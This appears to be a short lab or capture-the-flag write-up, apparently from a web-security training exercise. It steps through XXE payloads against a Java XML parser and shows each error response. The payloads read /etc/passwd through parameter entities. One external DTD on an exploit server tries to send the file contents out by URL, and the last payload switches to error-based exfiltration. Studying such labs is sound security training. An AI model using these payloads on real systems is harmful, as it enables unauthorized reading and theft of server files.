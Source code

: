 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % hello "<!ENTITY &#x25;>">
]>
```

=> `"Entities are not allowed for security reasons"`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
]>
```

=> `"XML parser exited with error: org.xml.sax.SAXParseException; lineNumber: 4; columnNumber: 3; Premature end of file."`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    %file;
]>
```

=> `"XML parser exited with error: org.xml.sax.SAXParseException; systemId: file:///etc/passwd; lineNumber: 1; columnNumber: 1; The markup declarations contained or pointed to by the document type declaration must be well-formed."`

在 exploit-server 定義

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0af6007c0389b3028050c0f0014900f4.exploit-server.net/?%file;'>">
%eval;
%exfil;
```

Client 端

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % dtd SYSTEM "https://exploit-0af6007c0389b3028050c0f0014900f4.exploit-server.net/exploit">
    %dtd;
]>
```

=> `"XML parser exited with error: java.net.MalformedURLException: Illegal character in URL"`

感覺快成功了，回到題目本身，是說要用 error message，所以修改 exploit-server 的 body

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%exfil;
```
